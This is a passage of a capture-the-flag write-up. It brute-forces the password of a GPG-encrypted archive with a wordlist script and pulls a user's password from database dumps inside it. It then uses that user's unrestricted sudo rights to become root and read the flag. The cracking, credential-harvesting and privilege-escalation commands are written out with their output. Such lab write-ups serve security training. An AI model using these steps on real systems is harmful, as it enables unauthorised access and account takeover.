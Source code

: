Holly molly...its too big for gpg2john...let's search for a custom script

```
$ ./crackgpg.sh 2020-08-13.zip.gpg wordlist.txt
FAILED - ebqiojsdfioj
FAILED - ebqiojsiodj
FAILED - ebqiojdifoj
FAILED - ebqiopsjdfopj
FAILED - ebqnice
FAILED - ebqops
FAILED - ebqiuiud
FAILED - ebqjoisjdfij
FAILED - ebqkjjdd
FAILED - ebqijsji
FAILED - ebqopkopk

SUCESS - ebqattle
```

`7z x 2020-08-13.zip`

`$ grep -ri james 2020-08-13`

```
2020-08-13/sakila/sakila-mv-data.sql:(84,'JAMES','PITT','2006-02-15 04:34:33'),
2020-08-13/sakila/sakila-mv-data.sql:(71,1,'KATHY','JAMES','KATHY.JAMES@sakilacustomer.org',75,1,'2006-02-14 22:04:36','2006-02-15 04:57:20'),
2020-08-13/sakila/sakila-mv-data.sql:(299,2,'JAMES','GANNON','JAMES.GANNON@sakilacustomer.org',304,1,'2006-02-14 22:04:37','2006-02-15 04:57:20'),
2020-08-13/load_employees.dump:(499996,'1953-03-07','James','vuimaxcullings','M','1990-09-27'),
```

creds = `james:vuimaxcullings`

Ah! priilege escalation

## Priviledge escalation

```
james@james:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on james:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on james:
(ALL : ALL) ALL
```

haha James is a fricking Boss!

```
james@james:/home/sarah/serverLx$ sudo su root
[sudo] password for james:
root@james:/home/sarah/serverLx# cd /root
root@james:~# ls
root.txt
root@james:~# cat root.txt
Flag{do_you_even_bash_bro}

NOW YOU ARE LINUX STRONGER!!!

```
